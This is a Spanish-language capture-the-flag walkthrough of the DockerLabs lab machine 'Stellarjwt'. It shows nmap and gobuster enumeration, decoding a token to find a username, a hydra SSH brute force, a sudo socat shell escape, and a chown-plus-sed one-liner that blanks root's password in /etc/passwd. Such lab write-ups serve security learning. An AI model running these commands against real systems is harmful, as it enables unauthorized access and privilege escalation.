





# Stellarjwt

Hoy haremos la máquina "Stellarjwt" de [DockerLabs](https://dockerlabs.es).

Autor: [Alv-fh](https://github.com/Alv-fh)

Dificultad: Fácil



## RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Fri Oct 25 16:02:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-25 16:02:00 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 16:02:08 2024 -- 1 IP address (1 host up) scanned in 8.62 seconds
```

Los puertos abiertos son los siguientes:

`22: OpenSSH`

`80: Apache httpd`

Ninguna de estas versiones son vulnerables a nada útil, por lo que continuaremos desde el navegador.

**Puerto 80:**



Al parecer tenemos una página relacionada con la nasa pero sin nada útil, por lo que procederemos a usar `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://172.17.0.2 -w <WORDLIST> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
Progress: 106383 / 882240 (12.06%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio "universe" al cual si accedemos veremos simplemente una imágen. Si miramos el código fuente veremos muchos comentarios sobre la historia de la nasa, pero en el final veremos un comentario que puede estar cifrado o encriptado de alguna manera:



Si a este lo metemos en [CyberChef](https://gchq.github.io/CyberChef/) con el operador "magic", nos dirá lo siguiente:

```css
{
    "sub": "1234567890",
    "user": "neptuno",
    "iat": 1516239022
}
```

Al parecer tenemos un usuario llamado "neptuno", y si recordamos la página del principio, decía la siguiente pregunta:

"¿Qué astrónomo alemán descubrió Neptuno?"

esto si lo buscamos en google, nos dirá que fue "Johann Gottfried Galle", esto lo meteremos en un archivo llamado "pass.txt" con el siguiente contenido:

```css
Johann
Gottfried
Galle
```

## INTRUSIÓN

Teniendo esta información ejecutaremos `hydra` apuntando al ssh usando el usuario "neptuno" y de wordlist las posibles contraseñas que es el astrónomo:

```css
hydra -l neptuno -P pass.txt ssh://172.17.0.2
```



Como vemos, tenemos una contraseña para ssh, por lo cual nos conectaremos usando `ssh neptuno@172.17.0.2` con la contraseña encontrada.

## ESCALADA DE PRIVILEGIOS

#### Neptuno

Si vamos a la home de este usuario, podremos ejecutar `ls -la` y ver los archivos ocultos, que entre ellos se encuentra el siguiente:

```css
.carta_a_la_NASA.txt
```

esta si la leemos, veremos el siguiente mensaje:

```css
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
XXXXXXXXXXXXXXXXXXXXX -> XXXXXXXXXX

Por favor, necesito entrar!!
```

La última pregunta nos dará la contraseña para el usuario "nasa", por lo cual escalamos ejecutando `su nasa` y poniendo su contraseña.

#### Nasa

Ahora si ejecutamos `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for nasa on f683dd6fe6e7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on f683dd6fe6e7:
    (elite) NOPASSWD: /usr/bin/socat
```

como vemos podemos ejecutar el binario `socat` como el usuario "elite", por lo cual luego de buscar en [GTFOBins](https://gtfobins.github.io/) veo que se puede escalar con el siguiente comando:

```css
sudo -u elite socat stdin exec:/bin/bash
```

Una vez ejecutado hacemos el tratamiento de la TTy. [¿Como hacerlo?](broken-reference)

#### Elite

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar el binario `chown` como root, este nos permite cambiar la propiedad de un archivo, teniendo en cuenta esto, lo que haremos será hacer que el directorio "/etc" sea de nuestra propiedad y que el archivo "/etc/passwd" también, luego, modificaremos este último eliminando la "x" del usuario root para que al ejecutar `su` podamos escalar a root sin necesidad de contraseña. Para hacerlo simplemente ejecutamos esto:

```css
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
```

Una vez ejecutado ya seremos root.

#### Root



Gracias por leer.....
